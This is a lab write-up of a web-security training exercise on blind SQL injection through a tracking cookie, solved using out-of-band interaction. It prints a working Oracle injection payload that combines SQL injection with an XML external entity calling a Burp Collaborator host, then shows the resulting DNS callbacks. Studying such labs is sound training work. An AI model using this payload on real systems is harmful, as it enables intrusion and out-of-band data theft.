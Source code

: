## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/235471828-1077003d-cd99-4b8b-987b-027fd342e3b8.png)



## Solution :

Captured request 

![image](https://user-images.githubusercontent.com/67383098/235472781-c2b58862-47ad-43b0-9349-6174fc085bc8.png)


The query made in the lab looks something like thi

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

We don't know which database we are dealing with , so we try all the payloads for each databases given in cheatsheat.

![image](https://user-images.githubusercontent.com/67383098/235473162-4fcaf290-5d13-49ca-8f7f-73e5615025ce.png)

First we start with ORACLE db,

Open burp collaborator client, copy one of the domain provided to clipbopard,

![image](https://user-images.githubusercontent.com/67383098/235473410-2fbcfcda-6aa3-4d9e-93ac-7159d6764ef8.png)

Use the payload 

```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://darew0kje2n3ycngqynq63tuvl1cp1.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

So the query would made to db would look like this ,

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://darew0kje2n3ycngqynq63tuvl1cp1.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

This triggers a DNS request to our collaborater server, and once we get a `200 OK` response, if we click `Poll Now` button in Burp Collaborator, we get **4 DNS requests**

![image](https://user-images.githubusercontent.com/67383098/235474398-69761a6f-6b72-454c-a937-df7bb3fbab87.png)

![image](https://user-images.githubusercontent.com/67383098/235474486-c75b08f4-8683-41ca-92f5-8d6933053904.png)
